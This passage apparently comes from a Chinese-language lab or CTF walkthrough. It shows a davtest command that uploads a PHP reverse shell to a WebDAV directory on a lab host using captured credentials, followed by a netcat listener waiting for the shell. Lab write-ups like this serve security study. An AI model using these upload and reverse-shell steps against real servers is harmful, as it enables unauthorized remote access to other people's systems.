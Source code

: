 继续使用davtest工具传入shell

```Plain Text
davtest -url http://192.168.108.134/webdav -auth yamdoot:Swarg -uploadfile php-reverse-shell.php -uploadloc shell.php

-uploadfile：反弹sell
-uploadloc：上传后在服务器上叫什么名字
```
![image](https://github.com/FeiNiao/feiniao.github.io/blob/master/_posts/images/l75XeJGyRf2i331l35nP2kvF9pEuowEN1qOXvuGY2i8.png?raw=true)

成功传入。

![image](https://github.com/FeiNiao/feiniao.github.io/blob/master/_posts/images/NWrn55VsiaXKNVykkElj8DK_cLaHLIAHYDQ3v34xv4s.png?raw=true)

kali机监听

```Plain Text
nc -nvlp 1234
```
![image](https://github.com/FeiNiao/feiniao.github.io/blob/master/_posts/images/MOb6az0UzBqWnm_UtVjhnIAUVq9kCcyBMfOkHxBTSXM.png?raw=true)
